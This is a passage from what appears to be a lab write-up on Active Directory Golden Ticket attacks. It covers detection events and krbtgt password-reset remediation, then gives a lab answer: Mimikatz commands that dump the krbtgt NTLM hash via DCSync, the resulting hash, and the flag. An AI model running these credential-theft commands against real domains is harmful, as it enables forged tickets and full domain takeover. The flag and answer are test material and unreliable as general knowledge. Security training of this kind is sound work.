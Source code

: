 The only difference between the tickets is the service. However, they are ordinary compared to the same events not associated with the `Golden Ticket`.

If `SID filtering` is enabled, we will get alerts with the [event ID 4675](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4675) during cross-domain escalation.

:::note
If an **Active Directory forest has been compromised**, we need to `reset all users passwords` and `revoke all certificates`, and for `krbtgt`, we must `reset its password twice` *(in **every domain**)*. The password history value for the `krbtgt` account is 2. **Therefore it stores the two most recent passwords**. By resetting the password twice, we effectively clear any old passwords from the history, so there is no way another DC will replicate this DC by using an old password. However, **it is recommended that this password reset occur at least 10 hours apart from each other** *(maximum user ticket lifetime)*; otherwise, expect some services to break if done in a shorter period.
:::

---

## Questions

### `1. Practice the techniques shown in this section. What is the NTLM hash of the krbtgt user?`

<RevealFlag>{`db0d0630064747072a7da3f7c3b4069e`}</RevealFlag>

#### Mimikatz

```cmd
cd C:\Mimikatz

C:\Mimikatz>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

```cmd
log output.txt
```

```cmd
lsadump::dcsync /domain:eagle.local /user:krbtgt
```

> Hash NTLM `db0d0630064747072a7da3f7c3b4069e`

---

#### PowerView

